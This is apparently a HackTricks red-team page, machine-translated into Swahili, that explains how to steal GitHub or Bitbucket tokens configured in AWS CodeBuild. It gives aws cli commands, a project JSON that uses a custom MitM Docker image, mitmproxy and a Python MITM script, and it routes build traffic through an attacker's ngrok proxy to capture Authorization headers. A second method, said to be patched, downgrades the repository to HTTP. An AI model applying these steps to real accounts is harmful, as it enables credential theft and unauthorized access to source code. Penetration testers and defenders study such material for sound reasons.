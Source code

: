 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

Kwanza, angalia kama kuna akidi za chanzo zilizowekwa ambazo unaweza kuvuja:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Ikiwa unapata kuwa uthibitisho kwa mfano Github umewekwa katika akaunti, unaweza **kuondoa** hiyo **ufikiaji** (**GH token au OAuth token**) kwa kufanya Codebuild **itumie picha maalum ya docker** kuendesha ujenzi wa mradi.

Kwa kusudi hili unaweza **kuunda mradi mpya wa Codebuild** au kubadilisha **mazingira** ya moja iliyopo ili kuweka **picha ya Docker**.

Picha ya Docker unayoweza kutumia ni [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Hii ni picha ya Docker ya msingi sana ambayo itaweka **env variables `https_proxy`**, **`http_proxy`** na **`SSL_CERT_FILE`**. Hii itakuruhusu kukamata sehemu kubwa ya trafiki ya mwenyeji iliyoonyeshwa katika **`https_proxy`** na **`http_proxy`** na kuamini SSL CERT iliyoonyeshwa katika **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
* Fuata maelekezo ya repo kuweka anwani yako ya IP ya proxy na kuweka cheti chako cha SSL na **ujenge picha ya docker**.
* **USIWEKE `http_proxy`** ili usikamate maombi kwa kiungo cha metadata.
* Unaweza kutumia **`ngrok`** kama `ngrok tcp 4444` kuweka proxy kwa mwenyeji wako.
* Mara tu unapokuwa na picha ya Docker iliyojengwa, **ipakie kwenye repo ya umma** (Dockerhub, ECR...)
2. **Set the environment**
* Unda **mradi mpya wa Codebuild** au **badilisha** mazingira ya moja iliyopo.
* Weka mradi kutumia **picha ya Docker iliyozalishwa awali**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Kama ilivyoonyeshwa katika **Github repo** unaweza kutumia kitu kama:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Toleo la **mitmproxy lililotumika ni 9.0.1**, iliripotiwa kwamba na toleo la 10 hii huenda isifanye kazi.
{% endhint %}

4. **Kimbia ujenzi & kamata taarifa za kuingia**

*   Unaweza kuona token katika kichwa cha **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Hii pia inaweza kufanywa kutoka kwa aws cli kwa kitu kama

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Kupitia itifaki ya HTTP~~

{% hint style="success" %}
**Ukatili huu ulirekebishwa na AWS kwa wakati fulani katika wiki ya 20 ya Februari ya 2023 (nadhani Ijumaa). Hivyo, mshambuliaji hawezi kuutumia tena :)**
{% endhint %}

Mshambuliaji mwenye **idhini za juu katika CodeBuild anaweza kuvuja token ya Github/Bitbucket** iliyowekwa au ikiwa idhini ilipangwa kupitia OAuth, **token ya muda ya OAuth inayotumika kufikia msimbo**.

* Mshambuliaji anaweza kuongeza mabadiliko ya mazingira **http\_proxy** na **https\_proxy** kwenye mradi wa CodeBuild ukielekeza kwenye mashine yake (kwa mfano `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Kisha, badilisha URL ya repo ya github kutumia HTTP badala ya HTTPS, kwa mfano: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Kisha, endesha mfano wa msingi kutoka [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) kwenye bandari iliyotajwa na mabadiliko ya proxy (http\_proxy na https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Hatimaye, bonyeza **Build the project**, **credentials** zitatumwa kwa **clear text** (base64) kwenye bandari ya mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sasa mshambuliaji ataweza kutumia token kutoka kwa mashine yake, orodhesha haki zote alizo nazo na (ku)zitumia kwa urahisi zaidi kuliko kutumia huduma ya CodeBuild moja kwa moja.
{% endhint %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) au [**telegram group**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
